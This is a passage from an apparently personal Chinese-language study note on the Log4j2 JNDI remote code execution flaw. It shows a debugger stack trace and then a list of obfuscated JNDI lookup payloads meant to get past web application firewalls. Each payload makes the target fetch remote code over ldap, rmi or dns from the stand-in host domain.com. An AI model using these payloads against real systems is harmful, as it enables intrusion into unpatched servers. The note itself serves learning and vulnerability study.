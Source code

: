 ```
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:10, Test (com.summer.test)
```

![image-20211210171625858](Log4j2-rce-学习.assets/image-20211210171625858.png)

## 绕waf

实际上简单的waf可以直接利用递归解析来绕过了，所以根据过程中的对于特殊字符的处理，可以绕过waf，比较类似fastjson那种吧，比如`L;`以及`[`这样的。

给出网上收集的payload：

```java
${jndi:ldap://domain.com/j}
${jndi:ldap:/domain.com/a}
${jndi:dns:/domain.com}
${jndi:dns://domain.com/j}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
${${::-j}ndi:rmi://domain.com/j}
${jndi:rmi://domainldap.com/j}
${${lower:jndi}:${lower:rmi}://domain.com/j}
${${lower:${lower:jndi}}:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://domain.com/j}
${jndi:${lower:l}${lower:d}a${lower:p}://domain.com}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
jn${env::-}di:
jn${date:}di${date:':'}
j${k8s:k5:-ND}i${sd:k5:-:}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${loWer:Nd}i${uPper::}
```

## 总结

简单学习了一下log4j2的rce，后续的绕过还没有看，以后有时间再看了。
